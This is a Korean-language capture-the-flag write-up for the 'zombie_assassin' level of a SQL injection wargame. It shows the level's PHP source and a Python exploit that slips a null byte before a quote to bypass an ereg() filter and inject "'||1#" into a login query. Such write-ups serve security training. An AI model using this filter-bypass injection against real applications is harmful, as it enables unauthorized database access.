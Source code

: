 ## Zombie_assassin Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");  
if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
if(@ereg("'",$_GET[id])) exit("HeHe");  
if(@ereg("'",$_GET[pw])) exit("HeHe");  
$query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) solve("zombie_assassin");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/zombie_assassin_eac7521e07fe5f298301a44b61ffeec0.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}

params['id'] = 'admin'
params['pw'] = chr(0) + "'||1#"

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] ZOMBIE_ASSASSIN Clear")
```
이번 문제는 **ereg()** 함수의 취약점을 이용하면 된다.  
ereg(argv1, argv2) 함수는 두번째 인자의 문자열에 첫번째 인자의 문자열이 있으면 true를 반환한다.  
이 함수의 취약점은 NULL 문자 전까지만 검사하는 것이다.  
따라서 NULL 문자를 넣어준 뒤 싱글쿼터를 넣어 우회할 수 있다.  
url에 입력할 때는 `%00`을 넣어주면 된다.